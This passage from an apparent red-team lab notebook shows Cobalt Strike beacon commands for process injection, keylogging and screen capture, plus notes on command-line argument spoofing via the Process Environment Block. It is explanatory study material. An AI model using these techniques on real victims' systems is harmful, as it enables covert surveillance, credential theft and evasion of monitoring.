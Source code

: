 Note the differences in commandline parameters captured in sysmon vs procexp:

![](../../.gitbook/assets/screenshot-from-2019-01-07-19-09-47.png)

Argument spoofing is done via manipulating memory structures in Process Environment Block which I have some notes about:

{% page-ref page="../defense-evasion/masquerading-processes-in-userland-through-\_peb.md" %}

{% page-ref page="../../miscellaneous-reversing-forensics/process-environment-block.md" %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](../../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)
